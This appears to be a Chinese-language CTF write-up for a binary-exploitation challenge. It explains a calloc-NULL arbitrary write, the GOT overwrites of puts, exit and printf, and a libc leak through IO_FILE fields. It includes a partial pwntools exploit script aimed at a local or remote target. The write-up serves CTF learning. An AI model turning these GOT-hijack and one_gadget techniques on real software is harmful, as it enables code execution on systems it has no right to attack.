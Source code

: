 利用calloc分配chunk，然后向chunk偏移4 * v5处写入数据，可以实现任意写但会受到calloc分配大小限制

但是如果能让calloc分配一个超级大内存，就会返回NULL，就能改4 * v5处的数据

calloc(nmemb, size);:

```
第一个参数是指分配成员个数，第二个参数为每个成员大小
分配大小：nmemb * size
```



### 思路：

- 因为本题没开PIE，所以可以通过利用calloc返回NULL来改puts_got为main_addr 来无限执行
- 因为程序不存在提权可用的函数，所以需要泄露libc，可以考虑mmap分配chunk与libc基址偏移固定来向IO_FILE结构体操作，限制了可分配大小，但可以看到是通过exit来退出的，劫持exit_got为ret可以实现继续执行calloc
- 计算mmap偏移，修改`flag位`和`IO_write_base` 多调试🐷即可 需要注意，因为scanf每次直接写入四个字节，所以没法像打heap那样只覆盖一字节 需要将整个`IO_write_base`都改成泄露函数puts_got，分两次即可修改高低位
- 之后就直接用第一次改got表方式 修改printf_got为one_gadget



exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context(arch='amd64',endian='el',os='linux')
context.log_level = 'debug'
debug = 1
if debug == 1:
	p = process("./chall")
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")	
else:
	p = remote("10.3.120.23",1337)
	libc = ELF("./libc.so.6")

one = [0xe6c7e,0xe6c7e,0xe6c84]
sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+":"+hex(addr))
elf = ELF("./chall",checksec=False)

puts_got = elf.got['puts']
exit_got = elf.got['exit']
printf_got = elf.got['printf']
main_addr = 0x40078D
ret = 0x00000000004005f1

pd = '1'*0x410
sla(": ",pd)
sla(": ",str(puts_got/4))
sla("]:",str(main_addr))

sla(": ",pd)
sla(": ",str(exit_got/4))
sla("]:",str(ret))

sla(": ",str(0x3000000))
offset_write_l = 0xc1ed6b0
```